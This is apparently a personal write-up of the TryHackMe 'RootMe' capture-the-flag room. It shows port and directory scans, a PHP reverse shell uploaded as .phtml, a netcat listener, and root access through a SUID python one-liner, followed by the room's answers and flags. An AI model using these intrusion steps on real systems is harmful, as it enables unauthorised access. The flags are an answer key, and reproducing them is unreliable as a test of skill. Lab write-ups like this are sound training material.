 # [RootMe CTF Write-up](https://tryhackme.com/room/rrootme)

## Overview
This document details the steps and findings of the RootMe challenge on TryHackMe.

## Initial Scanning
### Using Nmap
```bash
# Basic Scan
nmap 10.10.62.4
# Result:
# 22/tcp open  ssh
# 80/tcp open  http

# Version Scan
nmap -sV 10.10.62.4
# Result:
# 22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
# 80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

## Directory Enumeration
### Using GoBuster
```bash
gobuster dir -u http://10.10.62.4 -w ./Documents/Vault/Database/wordlists/SecLists/Discovery/Web-Content/common.txt
# Result:
# /.htaccess            (Status: 403) [Size: 275]
# /.htpasswd            (Status: 403) [Size: 275]
# /.hta                 (Status: 403) [Size: 275]
# /css                  (Status: 301) [Size: 306] [--> http://10.10.62.4/css/]
# /index.php            (Status: 200) [Size: 616]
# /js                   (Status: 301) [Size: 305] [--> http://10.10.62.4/js/]
# /panel                (Status: 301) [Size: 308] [--> http://10.10.62.4/panel/]
# /server-status        (Status: 403) [Size: 275]
# /uploads              (Status: 301) [Size: 310] [--> http://10.10.62.4/uploads/]

```
## Exploitation
### PHP Reverse Shell Script
```bash
found here : https://github.com/pentestmonkey/php-reverse-shell
```
### Port Checking and Connection
```bash
# Listening on Port 5555
nc -l 5555

# Testing Connection
telnet 192.168.68.129 5555
```
### Executing Reverse Shell
```bash
# Uploaded modified PHP reverse shell script from pentestmonkey to target's /uploads directory as .phtml
# URL: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
# Executed 'nc -nvlp 5555' on my machine and accessed file.phtml on the target's server
```

## Challenge Questions and Answers

- How many ports are open?

```bash
2
```

- What version of Apache is running?
```bash
2.4.29
```

- What service is running on port 22?
```bash
ssh
```

- Find directories on the web server.
```bash
# Result:
# /.htaccess            (Status: 403) [Size: 275]
# /.htpasswd            (Status: 403) [Size: 275]
# /.hta                 (Status: 403) [Size: 275]
# /css                  (Status: 301) [Size: 306] [--> http://10.10.62.4/css/]
# /index.php            (Status: 200) [Size: 616]
# /js                   (Status: 301) [Size: 305] [--> http://10.10.62.4/js/]
# /panel                (Status: 301) [Size: 308] [--> http://10.10.62.4/panel/]
# /server-status        (Status: 403) [Size: 275]
# /uploads              (Status: 301) [Size: 310] [--> http://10.10.62.4/uploads/]
```

- What is the hidden directory?
```bash
/panel/
```

- Find a form to upload and get a reverse shell, and find the flag.
```bash
#  find / -type f -name "user.txt*"
THM{y0u_g0t_a_sh3ll}
```

- Search for files with SUID permission, which file is weird?
```bash
# find / -perm -4000 -type f 2>/dev/null
/usr/bin/python
```

- Privilege Escalation

```bash
# Used GTFOBins
# Executed 'python -c 'import os; os.system("/bin/sh")'' for root access
# Located root.txt
THM{pr1v1l3g3_3sc4l4t10n}
```